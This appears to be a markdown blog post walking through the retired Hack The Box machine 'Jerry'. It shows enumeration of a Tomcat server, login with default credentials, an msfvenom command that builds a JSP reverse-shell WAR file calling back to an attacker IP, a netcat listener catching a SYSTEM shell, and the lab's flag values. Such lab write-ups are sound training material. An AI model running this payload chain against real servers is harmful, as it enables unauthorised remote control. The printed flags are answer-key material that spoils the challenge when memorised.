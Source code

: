```yaml
---
layout: post
title: "HTB: Jerry"
author: Andrew Cherney
date: 2023-11-20 20:37:50
tags: htb easy-box windows apache msvenom
icon: "/assets/icons/jerry.png"
post_description: "An easy box with a brute force login into a reverse shell upload. A demonstration of how simple many of the earlier boxes in HTB are."
---
```


<h1>Summary</h1>

{{ page.post_description }}

# Enumeration

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~]
└──╼ $nmap -sC -Pn 10.10.10.95
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-20 20:07 CST
Nmap scan report for 10.10.10.95
Host is up (0.065s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~]
└──╼ $dirsearch -u http://jerry.htb:8080

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/raccoon/reports/http_jerry.htb_8080/_23-11-20_20-12-25.txt

Target: http://jerry.htb:8080/

[20:12:25] Starting: 
[20:12:39] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[20:12:40] 400 -    0B  - /a%5c.aspx
[20:13:11] 302 -    0B  - /docs  ->  /docs/
[20:13:11] 200 -   19KB - /docs/
[20:13:14] 302 -    0B  - /examples  ->  /examples/
[20:13:14] 200 -   17KB - /examples/jsp/index.html
[20:13:14] 200 -    1KB - /examples/
[20:13:14] 200 -    7KB - /examples/servlets/index.html
[20:13:14] 200 -    1KB - /examples/websocket/index.xhtml
[20:13:14] 200 -  637B  - /examples/servlets/servlet/CookieExample
[20:13:14] 200 -    1KB - /examples/servlets/servlet/RequestHeaderExample
[20:13:15] 200 -   21KB - /favicon.ico
[20:13:16] 200 -  716B  - /examples/jsp/snp/snoop.jsp
[20:13:20] 302 -    0B  - /host-manager/  ->  /host-manager/html
[20:13:21] 401 -    2KB - /host-manager/html
[20:13:29] 302 -    0B  - /manager  ->  /manager/
[20:13:29] 302 -    0B  - /manager/  ->  /manager/html
[20:13:30] 401 -    2KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[20:13:30] 401 -    2KB - /manager/html/
[20:13:30] 401 -    2KB - /manager/jmxproxy/?get=BEANNAME&att=MYATTRIBUTE&key=MYKEY
[20:13:30] 401 -    2KB - /manager/status/all
[20:13:30] 404 -    2KB - /manager/VERSION
[20:13:30] 404 -    2KB - /manager/login.asp
[20:13:30] 401 -    2KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS
[20:13:30] 404 -    2KB - /manager/admin.asp
[20:13:30] 401 -    2KB - /manager/jmxproxy
[20:13:30] 401 -    2KB - /manager/html
[20:13:30] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[20:13:30] 404 -    2KB - /manager/login
[20:13:30] 401 -    2KB - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[20:13:30] 401 -    2KB - /manager/jmxproxy/?qry=STUFF

Task Completed
```

![default apache page](/img/jerry/jerry_apache_default.png)

# Admin as nt authority\system

## msvenom WAR payload

Accessing manager or host-manager requires a login. I used a credentials list from https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown and found the credentials to be tomcat:s3cret. 

![apache app manager](/img/jerry/jerry_apache_app_manager.png)

Well we can upload and deploy WAR files to run on the underlying Windows Server 2012 R2 running this apache server. Msvenom will come in handy to make this payload.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=7777 -f war > reverse.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```

Upload the reverse shell and head to the newly uploaded page to execute the code.

![war file upload](/img/jerry/jerry_war_reverse_upload.png)

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Jerry]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.95 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

And we are admin of the box. Two flags for the price of one.

```
C:\Users\Administrator\Desktop\flags>type * 
type *
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```



